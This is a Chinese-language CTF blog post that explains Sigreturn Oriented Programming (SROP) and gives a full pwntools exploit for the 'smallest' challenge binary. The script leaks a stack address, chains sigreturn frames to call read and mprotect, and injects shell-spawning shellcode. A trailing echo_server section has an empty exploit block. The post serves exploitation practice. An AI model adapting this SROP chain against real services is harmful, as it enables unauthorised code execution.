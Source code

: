 ```yaml
---
title: SROP_SMALLEST
date: 2019-04-10 21:32:35
tags:
layout: post
---
```

最近发现自己技能点很多都没有点...平时忙了点抽点时间把技能点上...SROP
<!--more-->
# SROP
SROP(Sigreturn Oriented Programming) 于 2014 年被 Vrije Universiteit Amsterdam 的 Erik Bosman 提出，其相关研究Framing Signals — A Return to Portable Shellcode发表在安全顶级会议 Oakland 2014 上，被评选为当年的 Best Student Papers。#摘自[ctfwiki][1]

[paper][2]
[slide][2]

原理及内容在`ctfwiki`上已经介绍的比较清楚
![nier](https://github.com/n132/Watermalon/raw/master/UNK/smallest/SIGNAL.png)
# 过程
执行0xf号(将栈上已经预先放置好的数据弹出)==>控制执行流
可以设置esp达到连续攻击的效果.
# 要求
* 较大空间 放置signal frame(约0x100)
* 泄露地址
* syscall-address
# 难点
理解了感觉没什么难的..利用了15号调用可以劫持执行流..
想出这个的人真厉害...
# exp OF smallest
[binary][4]
```python
from pwn import *
context.log_level='debug'
main=0x0000000004000B0
syscall=0x00000000004000be
p=process('./smallest')


context.arch='amd64'
shellcode=asm(shellcraft.sh())

p.send(p64(main)*3)
sleep(0.3)
#1

raw_input()
p.send("\xb3")

p.read(8)

stack=u64(p.read(8))
log.warning(hex(stack))

sig=SigreturnFrame()
sig.rax=0
sig.rdi=0
sig.rsi=stack&0xfffffffffffffff0
sig.rdx=0x200
sig.rip=0x4000be
sig.rsp=stack&0xfffffffffffffff0
ret=0x00000000004000c0
#2
gdb.attach(p)
raw_input()

p.send(p64(main)+p64(0)+str(sig))
sleep(0.3)
#3

payload=p64(0x0000000004000Be)+p64(0)[:-1]
raw_input()
p.send(payload)
sleep(0.3)

sig=SigreturnFrame()
sig.rax=10
sig.rdi=stack&0xffffffffffff0000
sig.rsi=0x10000
sig.rdx=7
sig.rip=0x4000be
sig.rsp=0x110+(stack&0xfffffffffffffff0)
ret=0x00000000004000c0
payload=p64(main)+p64(0)
raw_input()
p.send(payload+str(sig)+p64(0xdeadbeef)+p64((stack&0xffffffffffff0)+0x118)+asm(shellcraft.sh()))

sleep(0.3)
payload=p64(0x4000Be)+p64(0)[:-1]
raw_input()
p.send(payload)


p.interactive()
```
# review
发现调试的时候可以加上raw_input防止输入乱序

# echo_server
[binary][3]
顺便放一题partial write + ret slide
发现栈其实很`随便`...
aslr下需要概率打通.
# exp
```python

```

[1]:https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop/#srop
[2]:https://github.com/n132/Watermalon/tree/master/UNK/smallest
[3]:https://github.com/n132/Watermalon/tree/master/UNK/echo
[4]:https://github.com/n132/Watermalon/tree/master/UNK/smallest